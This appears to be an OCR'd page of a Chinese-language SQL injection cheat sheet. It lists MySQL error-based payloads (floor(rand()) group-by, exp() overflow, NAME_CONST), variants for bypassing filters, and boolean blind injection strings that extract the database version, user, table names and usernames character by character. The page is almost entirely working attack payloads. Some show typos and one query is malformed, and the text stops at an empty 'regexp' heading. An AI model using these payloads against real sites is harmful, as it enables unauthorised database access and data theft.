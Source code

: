 简化
```
select count(*) from information_schema.tables group by concat(version(), floor(rand(0)*2))
```
关键表被禁用
```
select count(*) from (select 1 union select null union
select !1)a group by concat(version(),floor(rand(0)*2))
```
rand 禁用
```
select min(@a:=1) from information_schema.tables group by concat(password,@a:=(@a+1)%2)
```

exp
```
select exp(~(select * FROM(SELECT USER())a))
```

mysql重复性
```
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
```
##  布尔注入

```
left(database(),1)>'s'

截取数据库第一位
```

```
ascii(substr((select table_name information_schema.tables where tables_schema =database()limit 0,1),1,1))=101 --+
```
```
substr(a,b,c) 从b位置开始，截取字符串a的c长度
```
```
ascii() 将某个字符转为ascii值
```
```
ascii(substr(select database()),1,1)=98
```
```
ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))>98%23
```
```
mid(a,b,c) 从位置b开始，街区a字符床的c位
```
```
ord()同ascii()，将字符串转为ascii值
```

## regexp 正则注入
